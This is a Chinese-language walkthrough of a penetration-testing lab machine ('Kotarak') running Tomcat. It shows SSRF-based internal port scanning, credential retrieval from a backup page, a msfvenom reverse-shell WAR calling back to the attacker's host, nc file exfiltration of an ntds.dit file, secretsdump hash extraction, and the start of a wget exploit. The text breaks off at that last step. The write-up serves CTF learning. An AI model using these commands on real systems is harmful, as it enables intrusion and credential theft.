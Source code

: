 # Kotarak（tomcat web server）

####  **端口扫描**
> 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
> 8009/tcp open  ajp13  Apache Jserv (Protocol v1.3)
> 8080/tcp open  http    Apache Tomcat 8.5.5
>Service Info: **OS: Linux**; CPE: cpe:/o:linux:linux_kernel

首先访问http://10.10.10.55:8080，显示HTTP Status 404 - /，状态码404 not found。于是枚举目录。
> dirb http://10.10.10.55:8080

```
+ http://10.10.10.55:8080/docs (CODE:**302**|SIZE:0)

+ http://10.10.10.55:8080/examples (CODE:302|SIZE:0)                         

+ http://10.10.10.55:8080/favicon.ico (CODE:200|SIZE:21630)                   

+ http://10.10.10.55:8080/host-manager (CODE:302|SIZE:0)                     

+ http://10.10.10.55:8080/manager (CODE:302|SIZE:0)
```
发现基本上都是302重定向。

于是访问下 http://10.10.10.55:8080/manager （A地址）

发现302重定向到http://10.10.10.55:8080/manager/ （B地址）

并且，B地址的状态码是404。但是404页面有个提示，tomcat 7重构并且有些urls已经改变。所有使用管理应用的urls现在应该使用如下选项：

> /manager/html for the HTML GUI
> /manager/text for the text interface
> /manager/jmxproxy for the JMX proxy
>  /manager/status for the status pages

既然提示这么贴心了，那我们就按照所说的访问一下。

然后发现，所给的urls都需要**登陆**才能访问。

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/2883590-ab8b47382ef604b6.png)

再搜索下 Apache Tomcat 8.5.5。[参考](http://blog.csdn.net/posonrick/article/details/72566875)

tomcat是java web服务器

尝试访问：http://10.10.10.55:8080/index.jsp ，200ok。

# SSRF-服务端请求伪造

没有经验的小白先跟whale学习下。
该漏洞经常出现在服务端，一些web应用程序经常从其他server获取信息。

>客户端 （去B服务器取回图片 !）——》A服务端（执行）————》B服务器（返回图片）————》A服务器（执行完毕）————》客户端（收到图片）

## 攻击方式：
>客户端（去扫描B服务器 ！）——》A服务端（执行）————》B服务器（返回数据包）————》A服务器（执行完毕）————》客户端（收到扫描结果）

服务器没有过滤客户端的请求。本来设计的功能想法是好的，但是攻击者不打算**以设计者的想法**来使用这个功能。

代码不多说，本文只讲讲实践部分，至于更深层次的漏洞原理和代码片段还需要各位自行学习。

再次扫描，全端口扫描

> nmap -p- -sV 目标的ip

作者扫描出了一个开放在60000的端口，类型是未知。但是我扫描的结果是，需要8个多小时。。想了半天才想起来，目标机器是在美国，对于网速实在不能苛求。。（感觉好坑，天朝就没有这种试验靶场吗）

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/2.PNG)

扫描出了以后，用浏览器访问。

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/%E6%8D%95%E8%8E%B7.PNG)

```
使用这个私人的web浏览器匿名在网络冲浪，请不要滥用它。
```
- Trying
```
python -m SimpleHTTPServer
ifconfig
在本地开启服务器，查看本地ip。
```
尝试用浏览器上的该功能访问下本地，是否成功。
输入`http://本地ip：8000`
浏览器跳转到一个地址`http://10.10.10.55:60000/url.php?path=http://本地ip:8000`
成功访问客户端本地地址。

- Trying

然后尝试ssrf，提交`file:///etc/passwd`
返回`try harder `
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。

- Trying
尝试`http://localhost:60000`  返60000端口上的正常页面。
因为端口扫描那一步**客户端访问都是302重定向**，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。

# wfuzz
- 这是一个web扫描软件
可以用`wfuzz -h` 查看使用方式
我们使用下列参数，扫描服务器开放的端口
`wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/3.PNG)
图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。
`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`
扫描后，我们得到了非2 Ch的响应结果。
看到了很多端口信息，因为**客户端nmap扫描是远程访问**，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。
-  trying
一个一个访问这些开放了的端口，`http://10.10.10.55:60000/url.php?path=http://localhost:端口`
在888端口，找到了一个备份页面backup。

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/4.PNG)

- Trying

访问备份页面的地址`http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`
url编码一下`http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup`
得到了可能是tomcat配置文件中的用户名密码。

（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）


![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/5.PNG)
我们用这个口令登陆端口扫描那一步获得的地址`manager/html`

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/6.PNG)

#### **获取shell**
刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。

![Alt text](https://github.com/Whale3070/whale3070.github.io/blob/master/assets/images/kotarak.resource/7.PNG)
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。
因为主页面上有上传功能，提示：
```
deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
```
暗示了我们可以上传一个war类型的反弹shell。
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=kali的ip LPORT=80 -f war > ippsec.war

`War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。`

- Trying
成功上传——本地nc监听80端口`nc -lnvp 80`——浏览器访问payload地址，即可获得一个shell。

- shell中运行
 `python -c 'import pty;pty.spawn("/bin/bash")'` 于是获得一个bash shell。

#### **提权**
cd backups
ls 发现tomcat-users.xml
cat *.xml 显示权限不够
cd home
find .
cd tomcat/to_archive/pentest_data/
ls
发现两个文件，`.dit`,`.bin` 

![说明这是windows域的文件]($res/%E6%8D%95%E8%8E%B7%202.PNG)

file *
说明`.dit`是data类型，`.bin`是微软windows registry文件。

- Trying: nc传文件。
kali中运行：
`nc -lvnp 443 > ntds.dit`
shell中运行：
`nc 攻击机IP 443 < xx.dit`
.dit需要输入全称哈，这里省略了。

- Trying: 提取.bin文件
impacket-secretsdump -h
`impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL`
得到了Target system bootKey，关于域渗透知识，还欠缺。
得到了一系列用户名和密码的hash值。

- Trying: tomcat的反弹shell中，运行
arp -a 查看局域网机器
获得`10.10.10.2` `10.0.3.133`两个机器的IP

- Trying: 对这两台机器进行扫描
运行nmap， 显示try harder!
用nc进行端口扫描，
```
nc 10.0.3.133 445				连接拒绝
nc -v 10.0.3.133 22			成功连接
```
并且显示ssh版本为，openssh，操作系统为ubuntu。

- Trying: 在线对hash进行解密
先删除明显是windows机器的hash，浏览器搜索hashkiller，对剩下的hash解密。
`awk -F: '{print $4}' hashes`

- Trying: 尝试ssh登陆
ssh atanas@10.10.10.55 
尝试了一个遍，失败

- Trying: tomcat的反弹shell中，尝试切换用户
su - atanas
使用解密出来的一个密码，成功切换到该用户
cd root
cat app.log

- Trying: 利用wget命令执行漏洞
searchsploit wget
searchsploit -m exploits/linux/remote/40064.txt






